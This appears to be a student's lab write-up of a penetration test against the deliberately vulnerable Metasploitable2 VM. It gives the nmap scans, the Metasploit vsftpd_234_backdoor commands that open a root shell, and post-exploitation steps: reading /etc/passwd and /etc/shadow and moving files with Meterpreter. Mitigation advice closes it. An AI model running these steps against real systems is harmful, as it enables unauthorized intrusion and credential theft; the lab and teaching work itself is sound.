 # 🔐 System Hacking – Gaining Access to a Vulnerable Machine

## 🧠 Objective
This ethical hacking project simulates a real-world exploitation scenario where a penetration tester targets a vulnerable system (Metasploitable2) using the Metasploit Framework. The objective is to identify susceptible services, exploit them, gain shell access, escalate privileges, and demonstrate basic post-exploitation actions.

---

## 🛠️ Tools Used

- **Kali Linux**
- **Metasploit Framework**
- **Metasploitable2 (vulnerable target machine)**
- `nmap`, `whoami`, `uname`, `ls`, and other Linux commands

---

## 🛰️ Scanning and Enumeration

**1) General nmap scan (to feel around)**
```bash
nmap <target-IP>
```

![Nmap Scan](images/nmap-scan.png)

**2) Detailed nmap scan to see services and versions**
- Discovered open port: `21/tcp` (FTP)
- Service detected: `vsFTPd 2.3.4` — a known vulnerable service with a backdoor.

```bash
nmap -A -sV <target-IP>
```

![Nmap Scan2](images/nmap-version-scan1.png)
![Nmap Scan2](images/nmap-version-scan2.png)
![Nmap Scan2](images/nmap-version-scan3.png)

---

## 💣 Exploitation Process

**1) Launch Metasploit:**

![Launch Exploit](images/metasploit-launch.png)

**2) Exploit Module Used:**

```
exploit/unix/ftp/vsftpd_234_backdoor
```

![Search Exploit](images/search-exploit.png)


**3) Metasploit Commands:**

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <target-IP>
set RPORT 21
run
```

📍 Successfully spawned a root-level shell:
```
[*] Command shell session 1 opened
```

![Exploit](images/exploit.png)

---

## 🧪 Post-Exploitation

- Verified root access with `whoami` → `root`

![Exploit](images/verify-root-access.png)


- Navigated the file system, listed directories

![Exploit](images/file-navigation.png)

- Display content of privileged directories like `/etc/passwd` and `/etc/shadow`

![Password hashes](images/passwd-hashes.png)
![Shadow hashes](images/shadow-hashes.png)


- More proof that I'm in

![msfadmininfo](images/msfadmin-info.png)
![Exploit](images/post-exploit1.png)
![Exploit](images/post-exploit2.png)


- Transferred files from attacker to victim using the Meterpreter `upload` command

![Exploit](images/upload1.png)


- Downloaded the victim's files back to Kali using the `download` command

![Exploit](images/download1.png)
![Exploit](images/download2.png)

---

## ⚠️ Challenges Faced & Resolutions

| Challenge | Solution |
|----------|----------|
| No internet access in Kali VM | Switched VM network adapter from Host-Only to NAT |
| Metasploit exploit failed to recreate session after closing | Rebooted Metasploitable2 to restart vulnerable FTP service |
| Upload error in normal shell | Upgraded to Meterpreter for advanced file interaction |
| Difficulty identifying active sessions | Used `sessions -i <id>` instead of `sessions` |
| Command confusion between shell and Meterpreter | Ensured proper shell upgrade and command context awareness |

**The error when I tried to use the `upload` command**

![Upload error](images/upload-error.png)


**Meterpreter Upgrade that resolved the error**

![Meterpreter Upgrade](images/meterpreter-upgrade.png)


---

## ✅ Result/Outcome

Successfully gained root-level access to the target machine, demonstrated file transfer techniques post-exploitation, and documented how to secure systems against such attacks.

---

## 🛡️ Mitigation Recommendations

To prevent exploitation of similar vulnerabilities in a production environment:

- Always keep services and operating systems updated.
- Replace outdated or unsupported software.
- Disable unnecessary services and ports.
- Use firewalls to control inbound/outbound traffic.
- Enforce least privilege and proper user access controls.
- Regularly scan systems for known vulnerabilities.

---

Date created: 24/04/2025
